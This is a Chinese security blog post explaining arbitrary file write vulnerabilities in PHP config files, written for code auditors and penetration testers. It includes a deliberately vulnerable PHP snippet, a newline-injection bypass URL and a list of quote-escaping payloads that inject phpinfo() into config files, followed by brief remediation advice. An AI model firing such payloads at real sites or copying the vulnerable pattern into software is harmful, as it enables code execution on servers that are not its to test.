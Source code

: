 ```yaml
---
layout: post
title:  "一篇文章深入理解任意文件写入漏洞"
categories: Web安全
tags: 任意文件写入 
author: 0e0w
---
```


* content
{:toc}
这是一篇关于任意文件写入漏洞的文章。本文会不定期更新，最近更新时间为2020年4月19日。
> 任意文件写入不同与文件上传漏洞，有些人也称之为是命令执行漏洞。漏洞出现的原因经常是在后台的一些配置文件修改编辑等处，程序开发过程中将这些配置信息未做好过滤保存到了文件中，用户可以在文件中写入任意的内容，导致漏洞产生。

## 0x01 概述

任意文件写入可以直接Getshell，危害很大。但在渗透测试中，往往出现在Cms中。不进行代码审计的情况下，较难直接获取权限，因为无法判断写入到了那个文件中，但也有例外的情况。关于任意文件写入漏洞，有三个前提条件：

- 文件写入函数的参数用户可控；
- 可控参数没有做好过滤；
- 写入的文件类型为可执行文件。

## 0x02 代码审计

任意文件写入漏洞代码审计思路：寻找文件写入或文件保存等相关函数，查看函数中变量用户是否可控，是否进行了过滤处理，是否保存到了可执行文件中。一般采用代码审计工具可以很好的找出此类漏洞，对于误报情况较大的情况，只需要人工去逐个分析排查即可。

### PHP文件写入

**相关函数**

- fopen() 创建文件，打开文件或URL。

  ```php
  $file = fopen("admin.php", "w")
  ```

- fwrite() 写入文件

  ```php
  fwrite($file, $str)
  ```

- file_put_contents() 把字符串写入文件

  ```php
  file_put_contents("admin.php","<?PHP phpinfo();?>");
  ```

- fputcsv() 将行数据格式化为CSV格式并写入文件

- fputs() 将字符串写入文件

- socket_write() 写一个 Socket

- session_write_close() 向Session中写入数据并终止Session

- ftp_nb_get() 从FTP服务器上获取文件并写入本地文件

- imagefttext() 使用FreeType2字体将文本写入图像

- imagettftext() 用TrueType字体向图像写入文本

### Java文件写入

**相关函数**

- FileWriter()
- BufferedWriter()

### 基础绕过方法

没有任何过滤直接将字符串写入文件的情况还是比较少的。有一部分漏洞是已经对参数做了过滤，但是没有完美过滤，导致使用某些技巧可言绕过。

- 利用换行符来绕过正则匹配。

  ```php
  <?php
  $api = addslashes($_GET['api']);
  $file = file_get_contents('./option.php');
  $file = preg_replace("/\\\$API = '.*';/", "\$API = '{$api}';", $file);
  file_put_contents('./option.php', $file);
  ```

  - update.php?api=aaaaa%27;%0aphpinfo();//
  - update.php?api=aaaaa

- 利用 preg_replace函数的问题。

- 利用 preg_replace() 第二个参数，自动转义反斜线。

- 利用正则\n|$n，将第n个子组替换到文本中

  ```php
  $a = 'aa1234aa';
  $b = preg_replace('/aa(\d+)aa/', 'bb\1bb', $a);
  echo $b;
  ```

- 多次提交进行逃逸。

## 0x03 渗透测试

在渗透测试中，可以在配置文件修改等地方插入类似的payload，查看当前页面的返回情况，或者是通过以往的经验来判断文件写入的位置。很多情况下，配置文件也并非是写入到了可执行文件中，而是写入到了数据库中。在渗透测试中，任意文件写入有俩种常见的情况：

- 配置文件处任意字符串写入

- 程序安装时install任意字符串写入

**常见payload**

```php
<?php phpinfo();?>
phpinfo();
";phpinfo();//
";@phpinfo();//
';phpinfo();//
‘;phpinfo();//
';@phpinfo();//
\',@phpinfo(),//',
\';phpinfo();//
aaa';phpinfo();%0a//
';%0aphpinfo();//
;phpinfo();
\%27;%0aphpinfo();%23
\%27;%0aphpinfo();//
\%27);%0aphpinfo();%23
\%27);phpinfo();%23
';phpinfo();//
");phpinfo();//
```

## 0x04 典型案例

出现过任意文件写入漏洞的程序。

- phpcms 
- SeaCms
- Discuz 
- 74cms
- dedecms
- 致远OA v8任意文件写入

## 0x05 漏洞修复

- 尽量避免在可执行文件中保存字符串内容。
- 对写入的字符串进行完美的过滤。

## 0x06 参考链接

- https://www.leavesongs.com/PENETRATION/thinking-about-config-file-arbitrary-write.html
- http://suo.im/5VUqhn
- https://blog.csdn.net/Ca3tie1/article/details/104830356